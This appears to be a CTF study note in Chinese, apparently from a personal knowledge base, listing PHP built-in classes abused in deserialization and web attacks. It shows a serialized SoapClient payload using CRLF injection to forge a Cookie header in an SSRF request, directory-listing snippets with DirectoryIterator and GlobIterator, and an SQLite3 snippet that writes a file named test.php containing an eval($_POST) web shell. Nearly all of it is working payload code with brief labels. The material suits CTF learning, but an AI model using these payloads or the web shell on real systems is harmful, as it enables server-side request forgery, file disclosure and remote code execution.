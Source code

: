 - [PHP 内置类的应用](https://www.cnblogs.com/iamstudy/articles/unserialize_in_php_inner_class.html#_label1_0)
- # SoapClient
- ```php
  <?php
  $a = new SoapClient(
    null,
    array(
        'uri'=>'bbb',
        'location'=>'http://127.0.0.1:81/flag.php',
        'user_agent'=>"test\r\nCookie: PHPSESSID=0mrbj32r0ptfcnf7l6kmmgh1c4"
    )
  );
  echo urlencode(serialize($a));
  # 利用: $a->notexist();
  ?>
  ```
- # Error类:
	- ((62efc5c6-a0d5-4eab-906e-0db03366b1e9))
- # DirectoryIterator
  id:: 6478aaed-922b-471c-b8d6-ec1b0cb0444d
	- 可以读取文件夹
	- ```php
	  $a=new DirectoryIterator("glob:///*");
	  foreach($a as $f){
	  	echo $f.' ';
	  }
	  ```
	- FilesystemIterator与之类似
- # GlobIterator
	- 可以使用glob读取文件夹
	- ```php
	  <?php
	  highlight_file(__file__);
	  $dir = '/*';
	  $a = new GlobIterator($dir);
	  foreach($a as $f){
	      echo($f->__toString().'<br>');
	  }
	  ?>
	  ```
- # SplFileObject
	- 可以读取文件，支持伪协议
	- 例子：[[CTF/WP/GDOUCTF 2023 反方向的钟]]
- # SQLite
	- 可以实现文件创建/写入
	- ```php
	  <?php
	  // 创建或连接数据库
	  $db = new SQLite3('test.php');
	  
	  // 创建新表
	  $query = 'CREATE TABLE IF NOT EXISTS users (id INTEGER PRIMARY KEY, username TEXT, email TEXT)';
	  $db->exec($query);
	  
	  // 向表中添加数据
	  $query = 'INSERT INTO users (username, email) VALUES (\'TestUser\', \'<?php eval($_POST["data"]);\')';
	  $db->exec($query);
	  
	  // 关闭数据库连接
	  $db->close();
	  
	  ```